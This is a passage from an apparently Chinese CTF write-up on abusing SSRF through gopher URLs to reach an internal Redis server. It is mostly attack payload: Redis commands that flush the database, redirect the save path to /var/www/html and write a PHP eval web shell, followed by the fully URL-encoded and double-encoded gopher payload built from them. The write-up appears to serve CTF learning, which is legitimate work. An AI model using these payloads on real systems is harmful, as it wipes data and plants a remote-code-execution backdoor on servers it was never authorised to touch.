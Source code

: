 

### 3、SSRF Redis 写入shell



![image-20210924095200826](https://gitee.com/taochiyu/blogimage/raw/master/img/20210924095200.png)

因为 把数据包抓取下来！ 

#### 方法1

##### 写shell

```
gopher://192.168.59.129:6380/_
auth welcometowangdingbeissrfme6379
flushall
config set dir /var/www/html
config set dbfilename shell1111.php
set x "<?php eval($_GET[1]);?>"
save
quit
```

试一试看看能不能玩！



首先`url`全编码下：

![image-20210923210936605](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923210936.png)

绕过 替换下%0A 为%0D%0A

![image-20210923210902232](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923210902.png)



二次编码：

![image-20210923210959671](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923210959.png)

测试：

```
auth%2520welcometowangdingbeissrfme6379%250D%250Aflushall%250D%250Aconfig%2520set%2520dir%2520%252Fvar%252Fwww%252Fhtml%250D%250Aconfig%2520set%2520dbfilename%2520shell1111%252Ephp%250D%250Aset%2520x%2520%2522%253C%253Fphp%2520eval%2528%2524%255FGET%255B1%255D%2529%253B%253F%253E%2522%250D%250Asave%250D%250Aquit%250D%250A
```

加上头：

```
gopher://192.168.59.129:6380/_auth%2520welcometowangdingbeissrfme6379%250D%250Aflushall%250D%250Aconfig%2520set%2520dir%2520%252Fvar%252Fwww%252Fhtml%250D%250Aconfig%2520set%2520dbfilename%2520shell1111%252Ephp%250D%250Aset%2520x%2520%2522%253C%253Fphp%2520eval%2528%2524%255FGET%255B1%255D%2529%253B%253F%253E%2522%250D%250Asave%250D%250Aquit%250D%250A
```
